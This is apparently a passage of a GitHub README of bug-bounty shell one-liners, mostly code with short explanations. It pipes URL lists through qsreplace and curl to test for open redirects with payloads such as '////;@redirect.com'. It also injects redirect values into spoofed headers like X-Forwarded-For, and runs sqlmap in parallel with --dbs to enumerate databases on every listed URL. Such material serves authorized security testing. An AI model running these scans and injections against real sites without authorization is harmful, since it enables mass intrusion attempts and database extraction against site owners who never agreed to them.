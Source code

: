 **Explanation – Takes input of urls file which then passes to qsreplace which replaces the parameter value to the injected one. Then it passes it to rush which runs 40 workers parallely and checks if the injected value comes in response header(Location).**
```
cat urls.txt | qsreplace "https://redirect.com" | rush -j40 'if curl -Iks -m 10 "{}" | egrep "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "Open Redirect found on {}"; fi'
```
`Test Case 2`
```
cat urls.txt | qsreplace "redirect.com" | rush -j40 'if curl -Iks -m 10 "{}" | egrep "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "Open Redirect found on {}"; fi'
```
`Test Case 3`
```
cat urls.txt | qsreplace "////;@redirect.com" | rush -j40 'if curl -Iks -m 10 "{}" | egrep "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "Open Redirect found on {}"; fi'
```
`Test Case 4`
```
cat urls.txt | qsreplace "/////redirect.com" | rush -j40 'if curl -Iks -m 10 "{}" | egrep "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "Open Redirect found on {}"; fi'
```
**On Headers (File containing Live Domains)
Explanation – Takes input of live domains as a list and append all the headers with the injected value in the request and checks if it reflected in response header (Location)**
```
cat live-domains | rush -j40 'if curl -Iks -m 10 "$line" -H "CF-Connecting_IP: https://redirect.com" -H "From: root@https://redirect.com" -H "Client-IP: https://redirect.com" -H "X-Client-IP: https://redirect.com" -H "X-Forwarded-For: https://redirect.com" -H "X-Wap-Profile: https://redirect.com" -H "Forwarded: https://redirect.com" -H "True-Client-IP: https://redirect.com" -H "Contact: root@https://redirect.com" -H "X-Originating-IP: https://redirect.com" -H "X-Real-IP: https://redirect.com" | egrep "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com" || curl -Iks -m 10 "$line" -H "CF-Connecting_IP: redirect.com" -H "From: root@redirect.com" -H "Client-IP: redirect.com" -H "X-Client-IP: redirect.com" -H "X-Forwarded-For: redirect.com" -H "X-Wap-Profile: redirect.com" -H "Forwarded: redirect.com" -H "True-Client-IP: redirect.com" -H "Contact: root@redirect.com" -H "X-Originating-IP: redirect.com" -H "X-Real-IP: redirect.com" | egrep "^(Location|location)\\:(| *| (http|https)\\:\\/\\/| *\\/\\/| [a-zA-Z]*\\.| (http|https)\\:\\/\\/[a-zA-Z]*\\.)redirect\\.com"; then echo "The URL $line with vulnerable header may be vulnerable to Open Redirection. Check Manually";fi'
```
## 2.`SQL Injection Check OneLiner`
**On list of URLs
Explanation – Rush takes input urls file and parallely runs 20 workers of sqlmap. First it checks wheather if the URL is alive or not.**
```
cat urls.txt | rush -j20 'if curl -Is "{}" | head -1 | grep -q "HTTP"; then echo "Running Sqlmap on '{}'"; sqlmap -u "{}" --batch --random-agent --dbs; fi'
```
## 3.`Open Redirect Check based on Location Header`
**Explanation – If the URL has the response as 301,302,307, then it checks if the Location header value is present in the original url or not. If the value is present in the url or parameter, then it tries to replace it with the custom value, if it gets the reflected custom value in response header, then it alerts as open redirect found.**
```
cat urls.txt | rush 'if curl -skI "{}" -H "User-Agent: Mozilla/Firefox 80" | grep -i "HTTP/1.1 \|HTTP/2" | cut -d" " -f2 | grep -q "301\|302\|307";then domain=`curl -skI "{}" -H "User-Agent: Mozilla/Firefox 80" | grep -i "Location\:\|location\:" | cut -d" " -f2 | cut -d"/" -f1-3 | sed "s/^http\(\|s\):\/\///g" | sed "s/\s*$//"`; path=`echo "{}" | cut -d"/" -f4-20`; if echo "$path" | grep -q "$domain"; then echo "Reflection Found on Location headers from URL '{}'";fi;fi'
```